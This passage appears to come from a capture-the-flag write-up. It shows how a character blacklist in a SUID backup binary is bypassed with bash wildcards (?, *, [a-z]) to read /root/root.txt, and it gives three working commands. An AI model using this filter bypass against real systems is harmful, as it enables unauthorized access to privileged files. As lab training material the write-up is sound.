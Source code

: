 ![image](assets/83562851-3cf0bf80-a4e8-11ea-9655-a97dc597abd9.png)

Looking at all symbols, I ruled out the ones defined in the backup app leaves the following, some of which are useful as they are used by bash as wildcard.

```
! " # % ' ( ) * , - . : < = > ? @ [ \ ] ^ _ { } ~ 
```

There may be other ways but I found three ways that allowed me to get root.txt

```
# Single Character Wildcard ?
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r?ot/r?ot.txt

# String Wildcard *
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r*ot/r*ot.txt

# Start and End character wildcard []
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r[a-z]ot/r[a-z]ot.txt
```
